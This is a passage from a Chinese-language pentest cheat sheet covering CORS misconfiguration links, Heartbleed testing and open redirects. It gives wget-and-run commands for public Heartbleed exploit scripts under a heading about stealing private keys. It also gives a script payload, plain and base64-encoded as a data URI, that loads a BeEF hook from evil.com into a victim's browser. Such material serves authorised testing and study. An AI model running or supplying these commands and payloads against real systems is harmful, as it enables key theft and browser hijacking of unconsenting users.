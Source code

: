 ```
```

资源:

```
https://www.securityninja.io/understanding-cross-origin-resource-sharing-cors/
http://blog.portswigger.net/2016/10/exploiting-cors-misconfigurations-for.html
https://www.youtube.com/watch?v=wgkj4ZgxI4c
http://ejj.io/misconfigured-cors/
https://www.youtube.com/watch?v=lg31RYYG-T4
https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
https://w3c.github.io/webappsec-cors-for-developers/#cors
http://gerionsecurity.com/2013/11/cors-attack-scenarios/
Using CORS misconfiguration to steal a CSRF Token:
https://yassineaboukir.com/blog/security-impact-of-a-misconfigured-cors-implementation/
```

## 11.测试心脏出血漏洞

```
nmap -d --script ssl-heartbleed --script-args vulns.showall -sV -p <port> <target ip> --script-trace -oA heartbleed-%y%m%d
```

### 偷私钥

```
wget https://gist.githubusercontent.com/eelsivart/10174134/raw/8aea10b2f0f6842ccff97ee921a836cf05cd7530/heartbleed.py
echo "<target>:<port>" > targets.txt
python heartbleed.py -f targets.txt -v -e
wget https://raw.githubusercontent.com/sensepost/heartbleed-poc/master/heartbleed-poc.py
python heartbleed-poc.py <target> -p <target port> | less
```

<https://gist.github.com/bonsaiviking/10402038>
<https://gist.githubusercontent.com/eelsivart/10174134/raw/8aea10b2f0f6842ccff97ee921a836cf05cd7530/heartbleed.py>

## 12.重定向

<http://breenmachine.blogspot.com/2013/01/abusing-open-redirects-to-bypass-xss.html>

重定向到beef：

```
<script> s=document.createElement('script'); s.type='text/javascript'; s.src='http://evil.com:3000/hook.js'; document.getElementsByTagName('head')[0].appendChild(s); </script>
```

使用Burp中的Decoder将其编码为base-64，并将其传递给payload：

```
data:text/html;base64,PHNjcmlwdD4gcz1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTsgcy50eXBlPSd0ZXh0L2phdmFzY3JpcHQnOyBzLnNyYz0naHR0cDovL2V2aWwuY29tOjMwMDAvaG9vay5qcyc7IGRvY3VtZW50LmdldEVsZW1lbnRzQnlUYWdOYW1lKCdoZWFkJylbMF0uYXBwZW5kQ2hpbGQocyk7IDwvc2NyaXB0Pg==
```
